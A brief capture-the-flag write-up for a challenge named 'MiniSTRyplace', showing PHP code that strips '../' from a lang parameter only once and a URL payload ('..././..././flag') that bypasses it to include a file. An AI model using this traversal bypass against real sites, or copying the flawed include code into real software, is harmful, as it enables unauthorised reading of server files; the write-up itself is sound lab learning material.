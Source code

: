 # MiniSTRyplace
![Image](<../Pasted image 20210423174607.png>)

## Analyzing Source Code
There appears to be a lang parameter. The PHP code does not do _str_replace_ recursively. 
```php
...snip...
 $lang = ['en.php', 'qw.php'];
        include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
    ?>
    </body>
...snip...
```

## Exploitation

This will allow us to put _../_ within one another and after the string replace does it job, we will have the correct path.
```url
http://188.166.145.178:31116/?lang=..././..././flag
```
